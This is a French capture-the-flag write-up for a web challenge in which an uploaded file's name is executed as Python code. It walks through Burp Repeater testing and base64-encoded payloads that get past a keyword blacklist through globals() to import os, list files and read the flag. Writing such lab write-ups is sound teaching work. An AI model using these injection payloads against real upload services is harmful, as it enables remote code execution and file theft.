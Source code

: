 # Upload me ☁️
```
70 pts
```

## Description
```
[FR]
Pour la soumission des trésors à protéger, une application web a été mise en place. Mais parait-il qu'un fichier sensible est caché ici.

[EN]
For the submission of treasures to be protected, a web application has been set up. But it seems that a sensitive file is hidden here.

Author: Hum4n

http://ctf.hackerlab.bj:5004
```
> Le nom de ce challenge nous fait penser à la vulnérabilité d'upload de fichier sans restriction. Nous avons donc décidé de téléverser une simple image.
> Lorsque nous téléversons le fichier, un message d'erreur apparaît disant qu'un nom n'est pas défini `NameError: name 'testtest' is not defined`, ce qui nous fait penser au langage Python.

<image src='File/upload1.png'>

> Nous avons donc émis l'hypothèse selon laquelle le nom du fichier était exécuté comme code Python. Pour vérifier cela, nous allons utiliser Burp Suite pour intercepter et modifier à chaque fois le nom du fichier grâce à l'outil *Repeater*.
> Nous allons d'abord essayer un simple 'print' ```print('test').png```, mais nous obtenons une erreur AttributeError: 'str' object has no attribute 'png'. Donc le *.png* est aussi pris en compte.
 
<image src='File/upload6.png'>
  
> Nous avons alors décidé de commenter le .png print ('test')#.png. 🙂 On arrive maintenant à exécuter le code.

> L'objectif maintenant est de trouver un payload afin d'exécuter du code système.

<image src='File/upload2.png'>

> Mais nous avons remarqué que plusieurs mots clés sont blacklistés comme ```import```, ```class```, ```subclasses```.

<image src='File/upload3.png'>
  
> Nous avons finalement remarqué que *globals* n'était pas bloqué. Nous avons à partir de là écrit un payload pour importer le package os ```globals().values()[0].__dict__['__import__']('os')```. Le problème qui se pose à ce niveau est que *import* et *os* sont blacklistés.
Mais comme il s'agit dans ce payload de chaînes de caractères, nous pouvons les encoder en utilisant la base64.
```print(globals().values()[0].__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')))#.png```, avec ce payload nous arrivons à importer os.

> Nous allons maintenant lister le contenu du répertoire courant ```print( globals().values()[0].__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).listdir('.'))#.png```.

<image src='File/upload4.png'>

> On remarque l'existence d'un fichier flag dans le répertoire.
> Nous allons maintenant afficher le fichier flag avec ce payload ```print (globals().values()[0].__dict__['open']('flag','r').read())#.jpg```. Comme précédemment nous allons coder open et flag en base64. ```print (globals().values()[0].__dict__['b3Blbg=='.decode('base64')]('ZmxhZw=='.decode('base64'),'r').read())#.jpg```.

<image src='File/upload5.png'>

# Flag
```CTF_w0w_pyth0n_bad_or_g00d``` 🔥
